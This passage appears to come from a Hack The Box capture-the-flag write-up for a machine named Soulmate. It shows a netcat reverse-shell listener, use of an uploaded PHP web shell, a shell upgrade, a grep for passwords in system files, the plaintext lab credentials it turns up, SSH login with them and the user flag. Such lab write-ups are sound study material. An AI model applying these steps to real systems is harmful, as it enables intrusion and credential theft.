 
**Reverse Shell Setup:**
```shell
nc -nvlp 9001
```

- Interact with uploaded shell at soulmate.htb/shell_name.php

---
#### TTY Upgrade
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
reset (if needed)
export TERM=xterm
```

### Credential Hunting
```bash
grep -Ri 'password' /usr/local/ 2>/dev/null
```

```
<SNIP>
/usr/local/lib/erlang_login/start.escript:        {auth_methods, "publickey,password"},
/usr/local/lib/erlang_login/start.escript:        {user_passwords, [{"ben", "HouseH0ldings998"}]},
<SNIP>
```

**Credentials Found:**
```bash
Username: ben
Password: HouseH0ldings998
```

---

### SSH Access
```shell
ssh ben@soulmate.htb
Password: HouseH0ldings998
```

**User Flag:**
```shell
cat /home/ben/user.txt
f708d904<REDACTED>
```

---

## 4. Privilege Escalation

### System Info
```bash
whoami && id
```
